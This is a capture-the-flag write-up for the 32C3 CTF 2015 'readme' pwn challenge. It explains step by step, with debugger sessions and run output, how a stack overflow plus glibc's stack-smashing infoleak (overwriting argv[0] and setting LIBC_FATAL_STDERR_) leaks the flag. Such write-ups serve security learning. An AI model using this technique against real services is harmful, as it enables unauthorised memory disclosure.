

# 32C3 CTF 2015 : readme

**Category:** Pwn
**Points:** 200
**Solves:** 31
**Description:**

> Can you read the flag?
>
>
> nc 136.243.194.62 1024


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/> (Common understanding)
* <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/> 
* <http://mashirogod.github.io/blog/2015/12/31/32c3-pwn-200-readme-write-up/> (IDA decompiled source)
* <http://ebfe.dk/ctf/2016/01/04/32c3-readme/> (Detailed understanding)
* [Chinese](http://ddaa.tw/32c3ctf_2015_pwn_200_readme.html) (Detailed understanding)
* [Japanese](http://pwn.hatenadiary.jp/entry/2015/12/31/103328) (Detailed description, however in Japanese :()

### Meta

Keywords:

* Stack Buffer Overflow `sbo` at `_IO_gets`
* [Stack Smashing Protection Infoleak](http://seclists.org/bugtraq/2010/Apr/243) `sspi`

Similar challenges:

* [ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit](https://github.com/ctfs/write-ups-2015/tree/master/ekoparty-pre-ctf-2015/pwn/smashing-the-stack-for-fun-and-profit)

We are given a gzipped tar archive that contains an x86-64bit stripped ELF for Linux:

```bash
$ file readme.bin
readme.bin: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=7d3dcaa17ebe1662eec1900f735765bd990742f9, stripped
```

Running it:

```bash
$ ./readme.bin 
Hello!
What's your name? name
Nice to meet you, name.
Please overwrite the flag: flag
Thank you, bye!
```

We can provide a name and a flag that overwrites the old flag.


Running `ltrace -s 256 -f ./readme.bin 2> /tmp/out` and checking the output of `/tmp/out`:

```bash
$ $ lt ./readme.bin 
Hello!
What's your name? myname
Nice to meet you, myname.
Please overwrite the flag: myflag
Thank you, bye!
$ tail -f /tmp/out 
[pid 2732] __libc_start_main(0x4006d0, 1, 0x7fff52713028, 0x4008b0 <unfinished ...>
[pid 2732] setbuf(0x7f430f9d2400, 0)                  = <void>
[pid 2732] __printf_chk(1, 0x400934, 0x7f430f9d39e0, 0xfbad2084) = 25
[pid 2732] _IO_gets(0x7fff52712e10, 0x7f430f9d39e0, 25, -1) = 0x7fff52712e10
[pid 2732] __printf_chk(1, 0x400960, 0x7fff52712e10, 0xfbad2288) = 53
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'm'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'y'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'f'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'l'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'a'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = 'g'
[pid 2732] _IO_getc(0x7f430f9d2640)                   = '\n'
[pid 2732] memset(0x600d26, '\0', 26)                 = 0x600d26
[pid 2732] puts("Thank you, bye!")                    = 16
[pid 2732] +++ exited (status 0) +++
```

We notice that our first input is read using `_IO_gets`, causing the stack buffer overflow, while the second input is read using `_IO_getc` until a newline or `0x20` bytes are read.

Decompiling the binary using `radare2` with `VV @ fcn.004007e0` confirms this:



PS: You can also use IDA to generate pseudo C code as done in [this writeup](http://mashirogod.github.io/blog/2015/12/31/32c3-pwn-200-readme-write-up/).

We can also see the flag located in the `.data` section at `0x00600d20`:

```bash
[0x004006ee]> izz | grep 32C3
vaddr=0x00600d20 paddr=0x00000d20 ordinal=029 sz=32 len=31 section=.data type=ascii string=32C3_TheServerHasTheFlagHere...
```

After some testing, we can cause a stack buffer overflow:

```bash
$ p -c 'print "A"*0x200+"\n"+"A"*0x200+"\n"' | ./readme.bin                                                                                                                       
Hello!
What's your name? Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: ./readme.bin terminated
Aborted (core dumped)
```

Unfortunately, we also see a `*** stack smashing detected ***` error message, which hints that the binary is [`Fortify Source`](https://www.redhat.com/magazine/009jul05/features/execshield/) protected, which essentially is a canary-based stack protection.

This is confirmed using `checksec`:

```
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

However, the stack smashing protection Fortify [suffers from an infoleak](http://seclists.org/bugtraq/2010/Apr/243): If we can overwrite the program name pointer `__libc_argv[0]`, which can be seen in the error message above, then we can leak memory data.

To see why, we look at the `glibc` source code and see a call from [`__stack_chk_fail` to `__fortify_fail`](https://fossies.org/dox/glibc-2.22/chk__fail_8c_source.html), if a buffer overflow has been detected.

[`__fortify_fail`](https://fossies.org/dox/glibc-2.22/fortify__fail_8c_source.html) then calls `__libc_message` with `__libc_argv[0]` as argument for our program name, resulting in our error message.

To find out how much we have to write, we do some simple calculations with `gdb-peda`:

```bash
gdb-peda$ b *0x0040080e
Breakpoint 1 at 0x40080e
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/32c3/readme/readme/readme.bin
[...]
gdb-peda$ find /home
Searching for '/home' in: None ranges
Found 4 results, display max 4 items:
[stack] : 0x7fffffffe760 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
[stack] : 0x7fffffffee82 ("/home/vbox/pwn/tasks/32c3/readme/readme")
[stack] : 0x7fffffffeef1 ("/home/vbox")
[stack] : 0x7fffffffefc5 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
gdb-peda$ find 0x7fffffffe760
Searching for '0x7fffffffe760' in: None ranges
Found 2 results, display max 2 items:
   libc : 0x7ffff7dd4018 --> 0x7fffffffe760 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
   [stack] : 0x7fffffffe4f8 --> 0x7fffffffe760 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
   gdb-peda$ distance $rsp 0x7fffffffe4f8
   From 0x7fffffffe2e0 to 0x7fffffffe4f8: 536 bytes, 134 dwords
```

* Set a `b`reakpoint right before the `_IO_gets` call and `r`un the binary
* Find the occurrence of our program name on the stack, writing down the starting address
* Find a pointer to this address on the stack
* Calculate the distance between the current stack frame pointer and the pointer to `__libc_argv[0]`

To overwrite the program name, we have to write `536` or `0x218` bytes.

We have to provide a pointer for `__libc_argv[0]` to test out hypothesis - let's use the pointer to our overwritten flag @ `0x600d20`!

[This python script](./solve1.py) does the job:

```bash
# Terminal 1: Run the service
$ exec socat TCP-LISTEN:6666,fork,reuseaddr EXEC:./readme.bin &
[1] 3128
$ fg
exec socat TCP-LISTEN:6666,fork,reuseaddr EXEC:./readme.bin
[...]
# Termina 2: Run the first try solve1.py
$ p solve1.py 
[+] Opening connection to localhost on port 6666: Done
[+] Recieving all data: Done (16B)
[*] Closed connection to localhost port 6666
Hello!
What's your name? Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`.
Please overwrite the flag: Thank you, bye!
# Terminal 1: See output
*** stack smashing detected ***: Overwritten Flag terminated
```

However, as you can see, the flag is overwritten by our second input and thus we cannot leak the flag this way.

Adding to that, another problem seems to be that our error message is printed at server side and not on our side.

To solve the first problem, we try to find another occurrence of our flag with `gdb-peda`:

```bash
gdb-peda$ b *0x0040080e
Breakpoint 1 at 0x40080e
gdb-peda$ r
[...]
gdb-peda$ find 32C3
Searching for '32C3' in: None ranges
Found 2 results, display max 2 items:
readme.bin : 0x400d20 ("32C3_TheServerHasTheFlagHere...")
readme.bin : 0x600d20 ("32C3_TheServerHasTheFlagHere...")
```

Looks like the flag also is stored into read-only memory @ `0x400d20`, which - according to [this writeup](http://ebfe.dk/ctf/2016/01/04/32c3-readme/) - is the norm for ELFs. Further information needs to be found :)!

So if we overwrite `__libc_main[0]` with `0x400d20`, we will see our flag:

```bash
[.. same as above ..]
# Terminal 2: Output is now the flag!
*** stack smashing detected ***: 32C3_TheServerHasTheFlagHere... terminated
```

All that is left to do is somehow redirect the server output to our side, which can be done by setting the environment variable `LIBC_FATAL_STDERR_` to `1`: `LIBC_FATAL_STDERR_=1`.

To know why this works, we again read `gibc` source code, this time the source code for the [`__libc_message`](https://fossies.org/dox/glibc-2.22/sysdeps_2posix_2libc__fatal_8c_source.html) function.
We see that the environment variable `LIBC_FATAL_STDERR_` is read using `__libc_secure_getenv`.
If it isn't set or empty and thus `\0` or `NULL`, `stderr` is redirected to `_PATH_TTY`, which usually is `/dev/tty` - hence error messages will be not sent to `stderr` but to a device only visible on server side.

In order to set this environment variable on server side for thius binary, we have a look at the stack @ our `__libc_argv[0]` address:

```bash
gdb-peda$ find 0x7fffffffe760                                                                                                                                                     
Searching for '0x7fffffffe760' in: None ranges
Found 2 results, display max 2 items:
   libc : 0x7ffff7dd4018 --> 0x7fffffffe760 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
[stack] : 0x7fffffffe4f8 --> 0x7fffffffe760 ("/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin")
gdb-peda$ x/30xg 0x7fffffffe4f8
0x7fffffffe4f8: 0x00007fffffffe760      0x0000000000000000
0x7fffffffe508: 0x00007fffffffe793      0x00007fffffffe7a8
0x7fffffffe518: 0x00007fffffffe7bf      0x00007fffffffe7d0
0x7fffffffe528: 0x00007fffffffe7e8      0x00007fffffffe7f8
[...]
gdb-peda$ x/20s 0x00007fffffffe760
0x7fffffffe760: "/home/vbox/pwn/tasks/32c3/readme/readme/readme.bin"
0x7fffffffe793: "LC_PAPER=de_DE.UTF-8"
0x7fffffffe7a8: "LC_ADDRESS=de_DE.UTF-8"
[...]
```

We see a null pointer as well as several environment variable addresses after the `__libc_main[0]` address.
If we overwrite one of these addresses, we will be able to set `LIBC_FATAL_STDERR_`!
It becomes clear why we have to overwrite the flag in the first place: To provide the string for this environment variable!

Wrapping everything together, we solve the challenge using [this python script](./solve.py):

```bash
$ p solve.py 
[+] Opening connection to localhost on port 6666: Done
[+] Recieving all data: Done (92B)
[*] Closed connection to localhost port 6666
Hello!
What's your name? Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@.
Please overwrite the flag: Thank you, bye!
*** stack smashing detected ***: 32C3_TheServerHasTheFlagHere... terminated
```

The actual flag (the authors either compiled the task again with another flag or edited the flag inside the binary) is `32C3_ELF_caN_b3_pre7ty_we!rd...`.

## Other write-ups and resources

* <http://nandynarwhals.org/2015/12/31/32c3ctf-readme-pwn200/>
* <https://nuc13us.wordpress.com/2015/12/31/32c3-ctf-pwn-200-readme/>
* <https://www.youtube.com/watch?v=wLsckMfScOg> (Have a look if you want to see the solution step by step!)
* <http://mashirogod.github.io/blog/2015/12/31/32c3-pwn-200-readme-write-up/>
* <http://ebfe.dk/ctf/2016/01/04/32c3-readme/>
* [Chinese](http://ddaa.tw/32c3ctf_2015_pwn_200_readme.html)
* [Chinese](http://www.ithao123.cn/content-10764874.html)
* [Korean](http://err0rless313.tistory.com/entry/32c3-CTF-readme)
* [Japanese](http://pwn.hatenadiary.jp/entry/2015/12/31/103328)
* <http://pastebin.com/Xd8jrhqV>
* <https://rzhou.org/~ricky/32c3/readme/>
* <http://pastebin.com/KX2t4GS8>
